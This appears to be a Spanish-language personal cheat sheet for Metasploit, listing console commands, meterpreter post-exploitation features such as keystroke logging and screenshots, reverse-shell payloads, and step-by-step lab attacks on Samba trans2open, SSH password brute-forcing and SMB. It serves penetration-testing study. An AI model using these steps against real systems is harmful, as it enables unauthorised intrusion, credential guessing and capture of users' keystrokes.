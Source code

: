 # Metasploit ❮❯

Tags: #Comandos #Metasploit #Payloads #Msfvenom

Sintax: 
	RHOSTS = Remote Host (The target IP)
	LHOST = Local host (Our IP)

* Para verificar la DB del Metasploit y despues entrar (Cuando se ejecuta por primera vez)
```bash 
❯ msfdb run
```

* Ejecutar Metasploit
```bash 
❯ msfconsole -q         # q = Quitar el banner de inicio
```

* Comandos de Metasploit dentro de la maquina victima 
```bash 
❯ help                  # Miramos el panel de ayuda
❯ shell                 # Nos regresa una Shell para interactuar mejor 
❯ screenshot            # Captura de pantalla del esquipo
❯ keyscan_start         # Sniffer de pulsaciones del teclado
❯ keyscan_dump          # Nos muestra lo que capturo por el teclado con el comando anterior
❯ background            # Ponemos la sesion en segundo plano 
❯ sessions              # Miramos las sesiones activas en segundo plano 
```

- **msfconsole -q** Iniciamos metasploit (q=no cargue el banner)
**❯ search ❮exploit❯** Buscamos el exploit
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
**❯ use ❮Number or path❯** Colocamos el numero del exploit que vamos a usar
**❯ options** Miramos las opciones del exploit y lo que debemos de configurar
**❯ set LHOST IP_addres** Configuramos el IP local (Si estamos en una VPN colocar el Tun0)
**❯ set RHOSTS IP_addres** Configuramos el IP remoto (maquina victima)
**❯ set RPORT** **#Puerto** Configuramos el puerto remoto (maquina victima)
**❯ set LPORT** **#Puerto** Configuramos el puerto local
**❯ show targets** Miras los targets disponibles (Diferentes versiones de Windows)
**❯ set target** **numero** Seleccionamos el numero de target a usar
**❯ show payloads** Miramos los payload disponibles


**Payloads**
Non-Stage -> Sends exploit shellcode all at once. Larger in size ando won't always work -> **windows/meterpreter_reverse_tcp**
Staged -> Sends payload in stages. Can be less stable -> **windows/meterpreter/reverse_tcp**

En este caso utilizaremos Metasploit para poder entrar por Samba 2.2
❯ **msfconsole** 
	❯ **search trans2open**
	❯ **use 1**
	❯ **options**
	❯ **set RHOST 192.168.68.112**
	❯ **run o exploit**
Miramos en options que esta ejecutado un **staged payload** ya que tenemos un **linux/x86/meterpreter/reverse_tcp**
Si no funciona podriamos hacer lo siguiente y buscaremos un **Non-staged payload**
❯ **set payload linux/x86/** Antes de completar el payload, podemos darle doble TAB para ver las opciones y los demas Payloads
❯ **set payload linux/x86/shell_reverse_tcp** 
❯ **options** 
❯ **run** Ejecutamos  


Tambien podemos usar Metasploit para explotar el SSH
❯ **msfconsole** 
	❯ **search ssh**
	❯ **use 17** Usaremos el que dice SSH_login
	❯ **options**
	❯ **set username root** Colocaremos el usuario de root
	❯ **set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt** Colocamos la ruta del diccionario 
	❯ **set rhosts 192.168.68.112** Colocamos la IP del target
	❯ **set threads 10** Para que vaya mas rapido al momento de mandar las solicitudes
	❯ **run** Ejecutamos el exploit


- **msfconsole** Para iniciar metaesploit para escanear **SMB**
	❯ **search smb** En este caso buscaremos exploits de SMB, podemos encontrar:
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
	❯ **use <module#>** Para usar el modulo, lo podremos hacer con la ruta o con el numero 
	❯ **info** Mirar la informacion del modulo
	❯ **options** Para ver las opciones del modulo y ver que necesitamos colocar para que funcione correctamente
	❯ **set RHOSTS <IP.Address>** Colocamos la IP target en el modulo
	❯ **run** Para ejecutar el exploit

Lista de exploits:
-   **samba 3.0.20** Para smb de los puertos 445/139

**❯ shell** Dentro del exploit con shell nos podemos conseguir una consola interactiva

